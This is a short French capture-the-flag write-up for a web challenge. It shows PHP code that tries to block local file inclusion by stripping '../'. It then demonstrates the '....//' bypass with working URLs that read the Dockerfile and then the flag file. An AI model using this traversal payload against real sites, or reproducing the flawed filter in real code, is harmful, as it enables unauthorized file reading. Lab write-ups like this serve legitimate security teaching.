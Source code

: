 On arrive sur un site qui affiche le contenu du index.php et notament la protection censé empêcher une attaque LFI :

```
 <?php

$file = isset($_GET['file']) ? str_replace('../', '', $_GET['file']) : null;
if (isset($file) && !empty($file)) {
    try {
        
        if (!file_exists("./$file")) {
            throw new Exception("File not found.");
        }
        
        $content = @file_get_contents("./$file"); 
        if ($content === false) {
            throw new Exception("Failed to read the file.");
        }
        
        echo $content;
    } catch (Exception $e) {
        
        error_log("Error: " . $e->getMessage());
        
        echo "An error occurred while trying to read the file.";
    }
} else {
    
    highlight_file('index.php');
}
print($file);
?>
```
Globalement les caractères ../ sont remplacé par rien. Mais sur linux on peu utiliser ....// qui sera intérpreté.

On peu lire le Dockerfile pour savoir ou ce trouve le flag:

```
https://web3.ctf.yogosha.com/?file=Dockerfile
FROM php:7.4-apache COPY index.php /var/www/html/index.php RUN mkdir -p /var/www/flag COPY flag.txt /var/www/flag/flag.txt RUN chmod -R 755 /var/www/flag && chown -R www-data:www-data /var/www/flag RUN chown -R www-data:www-data /var/www/html \ && chmod -R 755 /var/www/html Dockerfile
```

```
https://web3.ctf.yogosha.com/?file=....//....//....//var/www/flag/flag.txt
StarHack{LFI?oh_wow_oh_wow} ../../../var/www/flag/flag.txt
```
